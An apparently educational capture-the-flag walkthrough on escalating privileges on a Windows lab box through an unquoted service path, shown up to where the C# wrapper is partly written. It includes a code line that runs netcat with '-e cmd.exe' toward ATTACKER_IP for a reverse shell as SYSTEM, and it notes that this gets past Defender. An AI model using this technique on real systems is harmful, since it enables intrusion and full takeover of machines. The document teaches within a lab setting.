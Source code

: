 Let's recap what we found in the previous task:

- We have a privilege which we could almost certainly use to escalate to system permissions. The downside is that we'd need to obfuscate the exploits in order to get them past Defender.
- We have an unquoted service path vulnerability for a service running as the system account. This is ideal.

We have everything we need to root this box. Let's do this!

Of the two vulnerabilities that are immediately available, we will work through the unquoted service path attack for one simple reason: getting a reverse shell back from this is _very_ easy -- even with Defender in play. The exploits available to manipulate the privilege we found would need to be custom compiled and obfuscated in order to be useful to us; however, with the unquoted service path, all we need is one very small "wrapper" program that activates the netcat binary that we _already have on the target._ To put it another way, we just need to write a small executable that executes a system command: activating netcat and sending us a reverse shell as the owner of the service (i.e. local system). Ideally we would write a full C# service file that would integrate seamlessly with the Windows service management system. Whilst this is perfectly possible (and is by far the preferable option), for the sake of simplicity, we will stick to just creating a standalone executable. It's worth noting that this technique is effective at bypassing the antivirus software on the target; however, in an enterprise situation there is a good chance that it would be picked up by an intrusion detection system. In this scenario we would be looking for a more sophisticated (if similar) solution.  

Ideally we'd be using Visual Studio here. If you happen to have a Windows host and are familiar with Visual Studio then please feel free to use it for. As not everyone has access to a Windows machine (or is comfortable installing Windows as a virtual machine), the teaching content will work with the `mono` dotnet core compiler for Linux. This can be easily installed on Kali and will allow us to compile C# executables that can be run on Windows targets. The same code will work just fine if compiled in Visual Studio, however.

---

First we need to install Mono. This can be done with:  
`sudo apt install mono-devel`  

If you are using the AttackBox then this should already be installed.  

Now, open a file called `Wrapper.cs` in your favourite text editor.

The first thing we need to do is add our "imports". These allow us to use pre-defined code from other "namespaces" -- essentially giving us access to some basic functions (e.g. input/output). At the very top if the file, add the following lines:  
`using System;   using System.Diagnostics;   `  

These allow us to start new processes (i.e. execute netcat).

Next we need to initialise a namespace and class for the program:  
`namespace Wrapper{       class Program{           static void Main(){               //Our code will go here!           }       }   }`  

We can now write the code that will call netcat. This goes inside the `Main()` function (replacing the `//Our code will go here!` line).

First, we create a new process, as well as a ProcessStartInfo object to set the parameters for the process:  
`Process proc = new Process();   ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-USERNAME.exe", "ATTACKER_IP ATTACKER_PORT -e cmd.exe");`  
